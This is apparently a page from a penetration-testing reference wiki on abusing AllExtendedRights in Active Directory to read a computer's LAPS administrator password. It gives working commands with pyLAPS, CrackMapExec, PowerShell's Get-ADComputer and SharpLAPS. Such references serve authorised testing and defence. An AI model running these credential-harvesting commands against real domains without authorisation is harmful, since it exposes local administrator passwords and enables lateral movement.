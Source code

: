# ReadLAPSPassword

This abuse can be carried out when controlling an object that has `AllExtendedRights` over a target computer. The attacker can then read the LAPS password of the computer account.&#x20;

{% tabs %}
{% tab title="UNIX-like" %}
From UNIX-like systems, [LAPSDumper](https://github.com/n00py/LAPSDumper) (Python) can be used to retrieve LAPS passwords.

```bash
pyLAPS.py --action get -d 'DOMAIN' -u 'USER' -p 'PASSWORD' --dc-ip 192.168.56.101
```

Alternatively, [CrackMapExec](https://github.com/byt3bl33d3r/CrackMapExec) also has this ability (since v5.1.6).. In case it doesn't work [this public module](https://github.com/T3KX/Crackmapexec-LAPS) for CrackMapExec could also be used.

```bash
# Default command
cme ldap $DOMAIN_CONTROLLER -d $DOMAIN -u $USER -p $PASSWORD --module laps

# The COMPUTER filter can be the name or wildcard (e.g. WIN-S10, WIN-* etc. Default: *)
cme ldap $DOMAIN_CONTROLLER -d $DOMAIN -u $USER -p $PASSWORD --module laps -O computer="target-*"
```

Impacket's ntlmrelayx also carries that feature, usable with the `--dump-laps`.
{% endtab %}

{% tab title="Windows" %}
This can be achieved with the Active Directory PowerShell module.

```bash
Get-ADComputer -filter {ms-mcs-admpwdexpirationtime -like '*'} -prop 'ms-mcs-admpwd','ms-mcs-admpwdexpirationtime'
```

[SharpLAPS](https://github.com/swisskyrepo/SharpLAPS) (C#) automates that process.&#x20;

```bash
SharpLAPS.exe /user:"DOMAIN\User" /pass:"Password" /host:"192.168.1.1"
```
{% endtab %}
{% endtabs %}
